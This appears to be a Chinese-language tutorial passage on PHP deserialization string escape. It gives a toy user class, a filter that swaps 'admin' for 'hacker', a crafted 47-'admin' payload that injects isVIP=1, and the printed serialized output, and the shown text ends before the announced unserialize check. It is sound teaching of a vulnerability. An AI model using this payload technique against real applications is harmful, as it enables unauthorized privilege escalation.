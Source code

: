 ```php
<?php
class user
{
	public $username;
	public $password;
	public $isVIP;

	public function __construct($u,$p)
	{
		$this->username = $u;
		$this->password = $p;
		$this->isVIP = 0;
	}
}

function filter($s)
{
	return str_replace("admin","hacker",$s);
}

$a = new user('adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}','123456');
$a_seri = serialize($a);
$a_seri_filter = filter($a_seri);

echo $a_seri_filter;
?>
```

```
输出结果：
O:4:"user":3:{s:8:"username";s:282:"hackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}";s:8:"password";s:6:"123456";s:5:"isVIP";i:0;}

一共是47个hacker，共282个字符，正好与前面282相对应，后面的注入子串也完成了逃逸。反序列化后，最后面的多余子串直接抛弃。
```

将序列化结果再反序列化之后，输出检查

```php
<?php
class user
{
	public $username;
	public $password;
	public $isVIP;

	public function __construct($u,$p)
	{
		$this->username = $u;
		$this->password = $p;
		$this->isVIP = 0;
	}
}

function filter($s)
{
	return str_replace("admin","hacker",$s);
}

```